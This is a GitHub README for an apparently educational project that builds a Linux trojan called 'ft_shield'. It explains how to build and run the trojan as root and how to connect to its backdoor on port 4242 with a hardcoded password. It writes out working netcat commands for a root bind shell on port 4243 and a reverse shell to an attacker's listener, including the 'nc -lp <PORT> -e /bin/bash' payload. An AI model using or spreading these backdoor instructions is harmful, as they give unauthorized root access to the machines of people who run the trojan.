




# Summary

The purpose of this project is to create a basic trojan on Linux

It has been coded to run on Debian Linux : 

```bash
# uname -a
Linux parrot 6.0.0-12parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.12-1parrot1 (2023-01-12) x86_64 GNU/Linux
```

[Download distribution](https://www.parrotsec.org/download/)

# Run project

After importing the project into the VM, run the following commands:

```bash
make && sudo ./ft_shield
```

Use the script `./test/z_tester.sh` to see the information showing that the trojan is running in the background



From your host machine, connect to the backdoor with the password `toortoor` and type the command `help`

```bash
nc <IP> 4242
```

### help & exit


### shell
Use `shell` command, then a bash shell is then opened on the infected machine on port `4243`.
Connect directly to it in order to have access to a root shell on the machine

```bash
nc <IP> 4243
```


### rshell
Listen on a defined port on the host machine.
Use `rshell` command and a reverse shell will initiate a reverse connection on the host

```bash
# type the command below on host machine, in a dedicated terminal
nc -l 4444

# type the command below in the backdoor intermediate shell
rshell <RHOST> <RPORT>
```



# Useful information

The project is for educational purposes and is not optimized to run on any type of Linux machine

The payload used to connect remotely with the `shell` command is a `netcat` with the `-e` flag which can be disabled natively in some distributions for apparent security reasons.
 
```bash
nc -lp <PORT> -e /bin/bash
```

For the trojan to work properly, this feature of the `netcat` command must be enabled